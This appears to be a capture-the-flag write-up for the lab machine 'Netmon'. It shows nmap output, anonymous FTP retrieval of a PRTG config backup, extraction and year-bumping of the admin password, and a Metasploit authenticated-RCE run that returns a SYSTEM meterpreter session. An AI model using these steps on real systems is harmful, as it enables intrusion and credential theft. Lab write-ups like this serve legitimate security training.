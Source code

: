 Target: 10.10.10.152

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.152

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-15 01:36 PDT
Nmap scan report for 10.10.10.152
Host is up (0.095s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE      VERSION
21/tcp  open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-15T08:36:54
|_  start_date: 2021-05-15T08:35:04
```

checking 10.10.10.152

![index](netmon1.png)

### Findings:Looking for attack vectors

Ftp can be accessed through Anonymous FTP login.
Traverse and find website config files.


## Foothold:

[Location of Paessler config files](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

ftp login
```
$ ftp 10.10.10.152

ftp> cd "Programdata"\\Paessler\\"PRTG Network Monitor"

ftp> get "PRTG Configuration.old.bak"

local: PRTG Configuration.old.bak remote: PRTG Configuration.old.bak
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1153755 bytes received in 2.80 secs (402.3314 kB/s)
```

looking for creds
```
$ less "PRTG Configuration.old.bak"

<snip>
<dbpassword>
    <!-- User: prtgadmin -->
     PrTg@dmin2018
</dbpassword>
<snip>
```

Loot:

`prtgadmin:PrTg@dmin2018`

trying password on a different year

prtgadmin:PrTg@dmin2019

trying credentials

![login](netmon2.png)

Metasploit
```
$ msfconsole
```

searching for prtg exploits
```
search prtg

Matching Modules
================

   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/windows/http/prtg_authenticated_rce  2018-06-25       excellent  Yes    PRTG Network Monitor Authenticated RCE


use exploit/windows/http/prtg_authenticated_rce
set RHOSTS 10.10.10.152
set LHOST tun0
set ADMIN_USERNAME prtgadmin
set ADMIN_PASSWORD PrTg@dmin2019
run
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\\Users\\Public

meterpreter > cat user.txt

<redacted>

meterpreter > cd C:\\Users\\Administrator\\Desktop

meterpreter > cat root.txt

<redacted>
```
